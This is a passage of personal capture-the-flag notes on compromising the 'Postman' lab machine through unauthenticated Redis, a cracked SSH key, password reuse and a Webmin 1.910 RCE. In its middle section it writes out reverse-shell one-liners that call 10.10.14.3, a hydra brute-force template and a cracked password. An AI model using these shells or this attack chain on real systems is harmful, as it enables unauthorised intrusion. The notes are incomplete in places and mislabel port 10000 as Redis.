

# Machine #[NUMBER] [NAME]  


## Nmap Results  
     

* Initial nmap output  

  * An ssh, http and something else weird. I will -sV it to see if I find something.


* Full scan   


<br/><br/>

## Banner Grabbing of Services  

### `-p10000` http  
* Turned out to be an http service also.
    
  ```
  10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
  ```  

### `-80` http  
  ```console
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: The Cyber Geek's Personal Website
  ```
### `-p6379` redis  
* Found this weird service with the full scan  
```console
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

<br/><br/>

## Searchsploiting Results   
     


<br/><br/>  

## Gobustering Stuff  

    


<br/><br/>


## Thinking Out Loud   

    


* Seems like the "redis" service is used to implement ssl.  

  <blockquote>
  but you have to keep in mind that it can also implement ssl/tls.
  </blockquote>  


hydra -l [USER NAME] -p [PASSWORD] [IP ADDRESS] -t [NUMBER OF THREADS] [SSH OR FTP]


* Got Matt's password `/home/kali/Documents/machines/postman/id_rsa:computer2008
` he's not allowed to ssh but he like most people re-used the password.  


(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f)
bash -i >& /dev/tcp/10.10.14.3/1234 0>&1  

* The payload of the reverse shell didn't seem to work until I converted it into base64 and then encoded it.
<br/><br/>


## How Did I Solve the Machine 

      

  1. I used this technique to get into redis with ssh.  

    

  2. As soon as I got ssh with redis I was able to read Matt's SSH private key backup file and with it I was only left with the passphrase for the SSH key which wasn't hard to crack with `ssh2john.py` and then with `john` itself. 
  3. But I couldn't ssh with Matt because I saw that in the ssh configurations that Matt was forbidden from using ssh.
  4. But that wasn't a problem because Matt most probably re-used his password and he certainly did two times. One using the `su` and the other in the Webmin which gives me root access when I login.
  5. So what was left was to exploit Webmin and get a reverse shell from there to get root.
  6. Which was almost easy to do because there was an exploit for our exact version of Webmin (1.910) where it gave RCE.
  7. After encoding our reverse shell with base64 and then with URL encoding I was able to gain the reverse shell.
     

## Where I Got Stuck?  

* The reverse shell as usual. I had to encode it in base64, then in uri encoding to get the root reverse shell.
* I also got stuck at first a bit before I checked the full nmap scan and found the 10000 port of redis.
   

## What Did I learn from this Machine?  

* In the commands we use above research what does "dbfilename" mean...s
* I think the fact that redist was open for anyone to use. It did not have authentication.
* So I was easily able to write to its ssh file and gain foothold on the system.

## Writeups   
  


<!--@nested-tags:brute_force/machines/postman,file_misconfiguration/machines/postman-->